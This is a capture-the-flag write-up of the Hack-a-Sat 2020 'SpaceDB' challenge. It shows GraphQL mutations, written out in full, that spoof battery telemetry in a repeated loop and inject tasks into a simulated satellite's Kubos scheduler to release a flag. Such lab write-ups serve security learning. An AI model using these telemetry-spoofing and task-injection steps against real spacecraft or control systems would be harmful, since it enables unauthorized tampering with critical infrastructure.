



# SpaceDB

The [SpaceDB](https://quals.2020.hackasat.com/scoreboard/challenge/30) challenge was another fun challenge as it provided us an opportunities to explore unfamiliar technologies: [Kubos](https://www.kubos.com) and mechanics of telemetry database and mission plaining. The challenge was described as follows:

> The last over-the-space update seems to have broken the housekeeping on our satellite. Our satellite's battery is low and is running out of battery fast. We have a short flyover window to transmit a patch or it'll be lost forever. The battery level is critical enough that even the task scheduling server has shutdown. Thankfully can be fixed without without any exploit knowledge by using the built in APIs provied by kubOS. Hopefully we can save this one!
>
> Note: When you're done planning, go to low power mode to wait for the next transmission window

## Initial Exploration 

There were no additional files, you need to connect to the server attack the live system. So lets do that!

```
~/D/C/H/SpaceDB> nc spacedb.satellitesabove.me 5062
Ticket please:
ticket{xxxx...xxxx} 
### Welcome to kubOS ###
Initializing System ...

** Welcome to spaceDB **
-------------------------

req_flag_base  warn: System is critical. Flag not printed.

critical-tel-check  info: Detected new telemetry values.
critical-tel-check  info: Checking recently inserted telemetry values.
critical-tel-check  info: Checking gps subsystem
critical-tel-check  info: gps subsystem: OK
critical-tel-check  info: reaction_wheel telemetry check.
critical-tel-check  info: reaction_wheel subsystem: OK.
critical-tel-check  info: eps telemetry check.
critical-tel-check  warn: VIDIODE battery voltage too low.
critical-tel-check  warn: Solar panel voltage low
critical-tel-check  warn: System CRITICAL.
critical-tel-check  info: Position: GROUNDPOINT
critical-tel-check  warn: Debug telemetry database running at: 3.21.75.121:25168/tel/graphiql
```

A several items immediately stood out:

* `req_flag_base  warn: System is critical. Flag not printed.` - Ok, something tried to print out our flag but there is a check to prevent printing when the system state is *critical*.
* `warn: VIDIODE battery voltage too low.` - The problem statement said our battery is low... seems to be the case, the telemetry check is complaining about low power mode.
* `warn: Solar panel voltage low` - Hmm... probably why the power is low we have low incoming power from the solar panel. At this point we did not know why.
* `warn: System CRITICAL.` - There is our warning that the system state is *CRITICAL*, why the flag is not being printed.
* `warn: Debug telemetry database running at: 3.21.75.121:25168/tel/graphiql` - Ah! Something we can connect too. Looks like an HTTP URL. (Note: this URL changes every time you connect to the system)

From the output of the challenge the only thing actionable was the telemetry database URL, so lets see what it looks like! When we browse to that URL we see an interface into the [GraphQL](https://graphql.org) database with the ability to send queries and receive the responses:



## Telemetry Database

### Query Data

Our first instinct here is to download all the data from the database. In order to do this, we first went to the docs for both GraphQL and [Kubos Telemetry Database Service](https://docs.kubos.com/1.21.0/ecosystem/services/telemetry-db.html). In addition, the GarphiQL web interface has Docs that are dynamically generated based on what the service provides:



We want to query and download everything; the following is the query command we came up with:

```
{
  telemetry(timestampGe: 0.0) {
    timestamp, subsystem, parameter, value
  }
}
```

This returned the entire telemetry database:

```
{
  "data": {
    "telemetry": [
      {
        "timestamp": 1590625404.120497,
        "subsystem": "reaction_wheel",
        "parameter": "MOMENTUM_NMS",
        "value": "0.0"
      },
      {
        "timestamp": 1590625404.120497,
        "subsystem": "gps",
        "parameter": "VEL_Z",
        "value": "-899.2"
      },
      ...
      {
        "timestamp": 1590618585.803592,
        "subsystem": "eps",
        "parameter": "BATTERY_0_CURRENT_DIR",
        "value": "0"
      },
      {
        "timestamp": 1590618585.803592,
        "subsystem": "eps",
        "parameter": "BATTERY_0_CHECKSUM",
        "value": "48879"
      }
    ]
  }
}
```

There was a lot of data in here! Probably on a real satellite we would have to be a bit more selective on what values to retrieve... So we got data, what else can we do? 

### Modifying/Inserting Telemetry Data

Can we modify anything? Looking at the online docs there are three "mutating" operations, *insert*, *insertBulk*, *delete*:



Why don't we give inserting a try? Lets try to insert our own telemetry value!

```
# Request:
mutation {
  insert(subsystem:"acme", parameter: "test", value: "a value") {
    success, errors
  }
}
```

```
# Response:
{
  "data": {
    "insert": {
      "success": true,
      "errors": ""
    }
  }
}
```

Excellent, no errors! Lets see if we can read it:

```
# Request:
{
  telemetry(subsystem:"acme") {
    timestamp, parameter
  }
}
```

```
# Response
{
  "data": {
    "telemetry": [
      {
        "timestamp": 1590625823.3731902,
        "parameter": "test"
      }
    ]
  }
}
```

Nice! 

### Spoofing Battery Voltage Levels

At this point it looks like we can successfully insert (and probably delete) telemetry values. So what now? If we look back at the original logs, we can see internal processes that check the telemetry values:

```
critical-tel-check  info: Detected new telemetry values.
critical-tel-check  info: Checking recently inserted telemetry values.
```

And it recorded a warning about the battery voltage: `warn: VIDIODE battery voltage too low.` Lets query VIDIODE and see if there is a telemetry entry for it:

```
# Request
{
  telemetry(parameter: "VIDIODE") {
    timestamp, subsystem, parameter, value
  }
}
```

```
# Response
{
  "data": {
    "telemetry": [
      {
        "timestamp": 1590626561.688964,
        "subsystem": "eps",
        "parameter": "VIDIODE",
        "value": "6.473900264"
      },
      {
        "timestamp": 1590626524.318617,
        "subsystem": "eps",
        "parameter": "VIDIODE",
        "value": "6.47"
      },
      ...
```

Ok, so VIDIODE exists as a telemetry value and is around 6.5v. Let's try inserting a new telemetry entry and spoof a different voltage level: 

```
# Request
mutation {
  insert(subsystem: "eps", parameter: "VIDIODE", value: "40") {
    success, errors
  }
}
```

Looking at the output of the challenge, we can see the VIDIODE log has changed!

```
critical-tel-check  warn: VIDIODE battery voltage too high.
```

Oops... too high... let's do something more reasonable. After some trial and error we came up with:

```
# Request
mutation {
  insert(subsystem: "eps", parameter: "VIDIODE", value: "8") {
    success, errors
  }
}
```

```
critical-tel-check  info: eps telemetry check.
critical-tel-check  warn: Solar panel voltage low
critical-tel-check  info: eps subsystem: OK
critical-tel-check  info: Position: GROUNDPOINT
critical-tel-check  warn: System: OK. Resuming normal operations.
critical-tel-check  info: Scheduler service comms started successfully at: 13.58.29.49:21077/sch/graphiql
```

No VIDIODE error! And the satellite launched another service, the scheduler. Battery problem solved! Right? Wait:

```
critical-tel-check  warn: VIDIODE battery voltage too low.
```

Hmm... battery went back to low and the scheduler service disappeared. If we look back again at the data returned by query VIDIODE, we got a lot of results. There probably is a process that periodically logs the VIDIODE value. So if we want our VIDIODE value to persist we need to keep reinserting our value to make sure it is the most recent value in the telemetry database (we also tried inserting an entry with a timestamp far in the future, but the eps subsystem rejected the timestamp, so continuous re-inserting it is). We used [Burp](https://portswigger.net/burp) to setup an intruder attack to repeat the request every 2 seconds to automate this activity.

## Scheduler Service

### Query Data

Now that we got the scheduler service started lets do the same thing we did with the Telemetry Database and first download all the data. We used the same procedure starting with reviewing the schema from the GraphGL interface and the [Kubos Scheduler Docs](https://docs.kubos.com/1.21.0/ecosystem/services/scheduler.html#scheduler-service).

For querying we can query either the activeMode or the availableModes. Using the GraphiQL interface at {target}/sch/graphiql we issued the following request (names and structure of all the fields were identified by drilling down on the Docs->Schema panel displayed on the GraphiQL interface):

```
# Request
{
  activeMode {
    name, path, active, schedule {
      path, filename, tasks {
        description, delay, time, period, app {
          name, config, args
        }
      }
    }
  }
}
```

```
# Response
{
  "data": {
    "activeMode": {
      "name": "station-keeping",
      "path": "/challenge/target/release/schedules/station-keeping",
      "active": true,
      "schedule": [
        {
          "path": "/challenge/target/release/schedules/station-keeping/nominal-op.json",
          "filename": "nominal-op",
          "tasks": [
            {
              "description": "Update system telemetry",
              "delay": "35s",
              "time": null,
              "period": "1m",
              "app": {
                "name": "update_tel",
                "config": null,
                "args": null
              }
            },
            {
              "description": "Trigger safemode on critical telemetry values",
              "delay": "5s",
              "time": null,
              "period": "5s",
              "app": {
                "name": "critical_tel_check",
                "config": null,
                "args": null
              }
            },
            {
              "description": "Prints flag to log",
              "delay": "0s",
              "time": null,
              "period": null,
              "app": {
                "name": "request_flag_telemetry",
                "config": null,
                "args": null
              }
            }
          ]
        }
      ]
    }
  }
}
```

From this query we can see that the satellite is in **station-keeping** mode and is running the following tasks/apps:

* **update-tel** - Update system telemetry.
  * Delay: 35s
  * Period: 1m
* **critical_tel_check** - Trigger safemode on critical telemetry values.
  * Delay: 5s
  * Period: 5s
* **request_flag_telemetry** - Prints flag to log.
  * Delay: 0s

That **request_flag_telemtry** task looks very attractive! But first let us step back and see what we have. It appears that a mode can have a list of tasks that are scheduled to execute. From the parameter names, *delay*, *time*, and *period* we can guess that the schedule for a mode includes timing information on when to run the tasks. The Kubos [documentation](https://docs.kubos.com/1.21.0/ecosystem/services/scheduler.html#specifying-time-of-execution) for the scheduler service unsurprisingly contains documentation as to the meaning of these parameters.

The **update-tel** task is configured to start after a delay of 35 seconds, and runs every minute, while the **critical_tel_check** task starts after 5 seconds and runs every 5 seconds. Finally, the **request_flag_telemetry** runs immediately and only once. The timing in this schedule matches the behavior of the logs we were seeing! The `req_flag_base  warn: System is critical. Flag not printed` log is printed immediately when the challenge starts, and never again.

Ok, that is the active mode,  what other modes are there? To retrieve all the defined modes we built the following ***availableModes()*** query:

```
# Request
{
  availableModes(name: "") {
    name, path, schedule {
      path, tasks {
        description, delay, time, period, app {
          name
        }
      }
    }
  }
}
```

This result was a JSON document with all the defined modes. We reformatted the result with just the mode name, tasks, and their timing to make it more readable:

* Mode: **low_power**
  * Task: **low_power** - Charge battery until ready for transmission.
    * Delay: 5s
  * Task: **activate_transmission_mode** - Switch into transmission mode.
    * Time: 2020-05-28 17:06:08
* Mode: **safe**
* Mode: **station-keeping**
  * **update-tel** - Update system telemetry.
    * Delay: 35s
    * Period: 1m
  * **critical_tel_check** - Trigger safemode on critical telemetry values.
    * Delay: 5s
    * Period: 5s
  * **request_flag_telemetry** - Prints flag to log.
    * Delay: 0s
* Mode: **transmission** 
  * Task: **groundpoint** - Orient antenna to ground.
    * Time: 2020-05-28 17:06:18
  * Task: **enable_downlink** - Power-up downlink antenna.
    * Time: 2020-05-28 17:06:38
  * Task: **disable_downlink** - Power-down downlink antenna.
    * Time: 2020-05-28 17:06:43
  * Task: **sunpoint** - Orient solar panels at sun.
    * Time: 2020-05-28 17:06:48

Besides the **station-keeping** mode we also have **low_power**, **safe**, and **transmission**. Also another new concept, which we did not spot initially but turned out to be critical, is that all the tasks dealing with transmission specified the tasks timing with an absolute time. In hindsight, this makes perfect sense. If there is one ground control location, the satellite is will only be in communication range when its orbit takes it over the ground location. So timing the transmission to occur when the satellite is in range is going to be critical.

### Modifying Modes, Schedules, Tasks

After downloading/query everything we could, we turned our attention to what we were allowed to mutate. From the schema we see the following operations:

* **createMode()**
* **removeMode()**
* **activateMode()**
* **safeMode()**
* **importTaskList()**
* **removeTaskList()**
* **importRawTaskList()**

Let's try the easiest and use **activeMode()** to change the current mode. Looking back at the problem description it did mention:

> Note: When you're done planning, go to low power mode to wait for the next transmission window

Why not go to **low_power** mode and see what happens? We used the following query to change the mode:

```
mutation {
  activateMode(name: "low_power") {
    success, errors
  }
}
```

Success! **low_power** mode was enabled, and the challenge generated the following logs:

```
Low_power mode enabled.
Timetraveling.

Transmission mode enabled.

WARN: Battery critical.
INFO: Shutting down.
Goodbye
```

Well, looks like  spoofing VIDIODE values isn't sufficient to enable transmissions. Not very surprising giving the description of the challenge. They are losing power and fast! Must not have enough juice to  transmit (we will leave the question about how we can still have bi-directional communications to the satellite for another day....).

Another interesting tidbit is that enabling **low_power** mode resulted in a "time travel". All of the transmission tasks have absolute times hours in the future, so for them to fire the challenge needs to warp to the future! This is probably why the hint mentions going into the **low_power** mode.

#### Creating a Custom Mode and Schedule

Now that we can activate different modes, lets try control which tasks are being executed. Remember the **request_flag_telemetry** task? It mentions printing the flag to the log, we can see the log of executing tasks from Kubos. Let's try to create a new mode with the **request_flag_telemetry** task and see what happens.

The **createMode()** mutation seems pretty straightforward, but what about inserting tasks? We have two options **importTaskList()**, and **importRawTaskList()**. Let's go review the documentation [Scheduler Service - Task Format](https://docs.kubos.com/1.21.0/ecosystem/services/scheduler.html#task-format), the format is in json and looks something like this:

```json
{
    "tasks": [
        {
            "description": "Starts camera",
            "delay": "10m",
            "app": {
                "name": "activate-camera"
            }
        },
        {
            "description": "Deploys solar panels",
            "time": "2019-08-11 15:20:10",
            "app": {
                "name": "deploy-solar-panels"
            }
        },
        {
            "description": "Regular log cleanup",
            "delay": "1h",
            "period": "12h",
            "app": {
                "name": "clean-logs"
            }
        }
    ]
}
```

The only difference between **importTaskList()** and **importRawTaskList()** is that **importTaskList()** expects a local file and **importRawTaskList()** allows the list of tasks to be embedded in the request. Since we don't have local file access on the satellite, we are going to have to use the **importRawTaskList()** mutator.

> As a side note... being able to specify arbitrary file paths seems quite interesting. We did experiment with loading random files from the Linux file system, but did not take it too far. It was not needed to solve this challenge, but is interesting...

We used the following commands to accomplish this:

```
mutation {
  createMode(name: "acme") {
    success, errors
  }
}
```

```
mutation {
  importRawTaskList(name: "nominal-op", mode: "acme",
    json: "{\"tasks\": [{\"description\": \"print flag\", \"delay\": \"0s\", \"app\": {\"name\": \"request_flag_telemetry\"}}]}") {
    success, errors
  }
}
```

Note: The name here is important, the satellite only allows for two schedules *nominal-op* and *extra-op* for now we used *nominal-op* but we will use *extra-op* later.

```
mutation {
  activateMode(name: "acme") {
    success, errors
  }
}
```

These three commands generated the following log:

```
WARN: Could not establish downlink.
ERROR: Downlink: FAILED
WARN: LOW battery.
Shutting down...
Goodbye.
```

The `WARN: Could not establish downlink. ERROR: Downlink: FAILED` messages are new! But no flag... It appears that printing the flag requires a valid downlink. In addition, there is still the low power issue...

#### Charging up!

We now have the ability to create modes, create tasks lists, and activate modes. Lets turn our attention now to the power problems. Looking at the list of tasks we have a **groundpoint** and a **sunpoint** task. **Groundpoint** points the antenna at the ground, while **sunpoint** points the solar panels at the sun. From the logs we can see that our position is "GROUNDPOINT" and we have a `warn: Solar panel voltage low` log message. So we are not facing the sun and the solar panels are not receiving enough sunlight to charge the batteries.

The programmed schedules will only point the satellite at to the sun and charge its batteries after completing a transmission, but we don't have enough battery power to complete the transmission! The satellite goes dead before it gets to that point. The "over-the-space" update logic contained a bug that left the satellite pointing down to earth with no way to charge it's batteries! 

At this point we started constructing several  modes, schedules, and task combinations, which we will skip here. Eventually we realized that having two schedules per mode, *nominal-op* and *extra-op* is a handy feature. All existing modes only defined a *nominal-op* schedule so we can insert additional tasks into the *extra-op* without having to redo all the logic. We can use this scheduling fixture to "fix" the bug from the update.

With the **low_power** mode, we do have a delay of 5 seconds before executing the low_power task, which is then suppose to charge the batteries. Why not use the *extra-op* schedule to insert a **sunpoint** task with a 0 second delay? The following mutation command can be used to insert this task:

```
mutation {
  importRawTaskList(name: "extra-op", mode: "low_power",
    json: "{\"tasks\": [{\"description\": \"point to sun\", \"delay\": \"0s\", \"app\": {\"name\": \"sunpoint\"}}]}") {
    success, errors
  }
}
```

Now when activating the **low_mode** mode it appears that we fixed the bug! The satellite now points itself at the sun before sleeping to charge its batteries. Ground transmissions can occur!

```
Low_power mode enabled.
Timetraveling.

sunpoint  info: Adjusting to sunpoint...
sunpoint  info: [2020-05-28 17:28:21] Sunpoint panels: SUCCESS

Transmission mode enabled.

INFO: Adjusting to groundpoint...
INFO: Pointing at ground: SUCCESS

INFO: Powering-up antenna
WARN: No data to transmit

INFO: Powering-down antenna
INFO: Downlink disable: SUCCESS

INFO: Adjusting to sunpoint...
INFO: Sunpoint panels: SUCCESS

Goodbye
```

#### Flag Transmission

Ok, we have power and communications now, what about the flag? Before when we tried to execute the **request_flag_telemetry** it complained about not having a downlink. What about if we try to execute the **request_flag_telemetry** task during the middle of a downlink? Lets adds an *extra-op* schedule to the  **transmission** mode that times the request to occur right after the **enable_downlink** task executes (the timing of the transmission changes every time the challenge is launched, so this timestamp will need to be updated with every attempt).

```
mutation {
  importRawTaskList(name: "extra-op", mode: "transmission",
    json: "{\"tasks\": [{\"description\": \"print flag\", \"time\": \"2020-05-28 17:06:39\", \"app\": {\"name\": \"request_flag_telemetry\"}}]}") {
    success, errors
  }
}
```

Succes!!!

```
Timetraveling.

sunpoint  info: Adjusting to sunpoint...
sunpoint  info: [2020-05-28 17:48:00] Sunpoint panels: SUCCESS

Transmission mode enabled.

Pointing to ground.
Transmitting...

----- Downlinking -----
Recieved flag.
flag{xxxxx...xxxxx}

Downlink disabled.
Adjusting to sunpoint...
Sunpoint: TRUE
Goodbye

```

Note: This walkthrough skipped a lot failed attempts, creating modes, schedules, trying different delays, a different order of operations, etc... until it clicked for us that satellite probably is only in view of a ground station for a short period of time. Those absolute timestamps on the transmission tasks are a necessity! It is critical to base any modifications to transmission around the existing timestamps.

## Putting it all Together

We performed a lot of exploratory, documentation reading, incorrect attempts, and other actions. Only four actions need to be taken to solve the challenge:

1. Spoof the VIDOIDE value into the telemetry database by sending the following mutation in a loop:

   ```
   mutation {
     insert(subsystem: "eps", parameter: "VIDIODE", value: "8") {
       success, errors
     }
   }
   ```

2. Add an *extra-op* schedule to the **low_power** mode to point to the sun before sleeping:

   ```
   mutation {
     importRawTaskList(name: "extra-op", mode: "low_power",
       json: "{\"tasks\": [{\"description\": \"point to sun\", \"delay\": \"0s\", \"app\": {\"name\": \"sunpoint\"}}]}") {
       success, errors
     }
   }
   ```

3. Add an *extra-op* schedule to the **transmission** to print the flag after the downlink communication has been established and before the disconnect (the time of the task needs to be updated to match the next transmission time):

   ```
   mutation {
     importRawTaskList(name: "extra-op", mode: "transmission",
       json: "{\"tasks\": [{\"description\": \"print flag\", \"time\": \"2020-05-28 18:39:49\", \"app\": {\"name\": \"request_flag_telemetry\"}}]}") {
       success, errors
     }
   }
   ```

4. Switch the active mode to **low_power**:

   ```
   mutation {
     activateMode(name: "low_power") {
       success, errors
     }
   }
   ```

   

